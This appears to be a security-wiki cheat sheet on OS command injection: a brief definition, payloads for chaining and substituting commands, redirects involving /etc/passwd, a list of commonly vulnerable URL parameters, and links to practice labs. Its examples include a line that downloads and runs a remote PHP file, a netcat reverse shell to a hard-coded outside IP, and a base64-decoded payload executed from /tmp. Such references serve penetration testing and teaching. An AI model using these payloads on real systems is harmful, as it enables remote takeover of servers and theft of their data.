 # Command Injection

### What is command Injection?

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute an arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. (From [here](https://portswigger.net/web-security/os-command-injection)).

#### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** (using `"` or `'`) before the commands.

### Command Injection/Execution

## Both Unix and Windows supported

```bash
ls||id; ls ||id; ls|| id; ls || id # Execute both

ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)

ls&&id; ls &&id; ls&& id; ls && id # Execute 2º if 1º finish ok

ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º

ls %0A id # %0A Execute both (RECOMMENDED)
```

## Only unix supported

```bash
`ls` # ``

$(ls) # $()

ls; id # ; Chain commands

ls${LS_COLORS:10:1}${IFS}id # Might be useful

```

## Not executed but may be interesting

```bash
> /var/www/html/out.txt #Try to redirect the output to a file

< /etc/passwd #Try to send some input to the command
```

#### **Limition** Bypasses

If you are trying to execute **arbitrary commands inside a linux machine** you will be interested to read about this **Bypasses:**

#### **Examples**

```bash
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php

vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80

vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

#### Parameters

Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities (from [link](https://twitter.com/trbughunters/status/1283133356922884096)):

```bash
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

* [ ] [**Blind OS command injection with time delays**](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [ ] [**Blind OS command injection with output redirection**](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [ ] [**Blind OS command injection with out-of-band interaction**](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [ ] [**Blind OS command injection with out-of-band data exfiltration**](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

